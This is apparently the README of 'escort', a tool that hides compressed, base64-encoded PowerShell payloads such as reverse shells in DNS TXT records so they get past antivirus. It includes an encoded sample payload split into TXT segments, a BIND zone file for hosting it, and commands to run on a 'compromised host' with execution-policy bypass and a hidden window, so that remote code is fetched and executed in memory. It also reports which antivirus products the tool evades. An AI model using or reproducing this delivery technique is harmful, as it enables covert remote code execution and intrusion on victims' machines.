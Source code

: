 # Escort

![](./escort.jpg)

`escort` is an experiment at using DNS TXT records for transmitting malicious payloads to bypass Anti Virus detection. It currently only supports PowerShell payloads (ie reverse shells with powershell) however ideally I will expand this to other potential payload systems. It consists of taking your payload, compressing with DEFLATE and base64 encoding it.

Because not all DNS servers are equal, some servers may return DNS record values not in the order they are declared in. For example CoreDNS using the BIND zone file format will serve results in the order they are declared in, but AWS Route53 may or may not do this. As such we mark the beginning of the base64 encoded with a segment identifier. 

We use the `|` character which is not a valid base64 encoded character to mark the end of the segment identifier and the beginning of the base64 encoded segment. Escort uses this information to recombine the bsae64 segments before decoding them. After decoding we decompress the output and execute it with `Invoke-Expression` cmdlet to avoid writing the script to disk

# Usage

To showcase usage an example payload is included in `payload.txt`

```shell
$> git clone https://github.com/bonedaddy/escort
$> cd escort
$> go build
$> ./escort --input.file payload.txt compress
0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8
```
You then want to add these values to your DNS host in order. For example in BIND zone files you would add this as follows:

```bind
$ORIGIN example.org.
@	3600 IN	SOA sns.dns.icann.org. noc.dns.icann.org. (
				2017042745 ; serial
				7200       ; refresh (2 hours)
				3600       ; retry (1 hour)
				1209600    ; expire (2 weeks)
				3600       ; minimum (1 hour)
				)

	3600 IN NS a.iana-servers.net.
	3600 IN NS b.iana-servers.net.

test4   IN TXT   "0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
test4   IN TXT   "1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8"
```

On the compromised host you would run `escort.ps1` using one of the following:

```
$> .\escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
$> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
```

This will query the host `test4.example.org` for TXT records and use that to construct the payload.

# Caveats

* Due to the usage of DEFLATE the powershell script you are compressing and base64 encoding must be a minimum of 45 characters in length, otherwise you should skip the deflate process as this will just increase the size of your payload, however this will require modifying `escort.ps1` as it expects a base64 encoded DEFLATE compressed payload.
* This may not evade all antiviruses, known AV solutions I have tested against are listed below


| AV Name | Successfully Bypasses |
|---------|-----------------------|
| Avira Free | Yes |
| MalwareBytes Free | Yes |
# Notes

Brotli offers the best compression of data, however it doesn't appear to be widely supported on Windows unless .NET version >=4.5 is installed so it is temporarily not being used.
